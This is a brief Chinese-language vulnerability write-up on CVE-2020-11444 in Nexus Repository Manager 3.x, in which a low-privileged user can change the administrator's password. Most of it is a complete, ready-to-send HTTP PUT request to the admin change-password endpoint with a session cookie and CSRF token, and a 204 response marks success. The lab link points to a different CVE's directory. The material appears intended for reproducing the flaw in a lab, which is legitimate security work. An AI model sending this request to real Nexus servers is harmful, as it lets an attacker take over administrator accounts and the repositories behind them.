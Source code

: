 # Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

```
Nexus  3.x OSS / Pro <= 3.21.1
```

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204

## 漏洞复现

漏洞触发需要任意账户权限

![](images/202202091858261.png)

登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功

![](images/202202091858448.png)
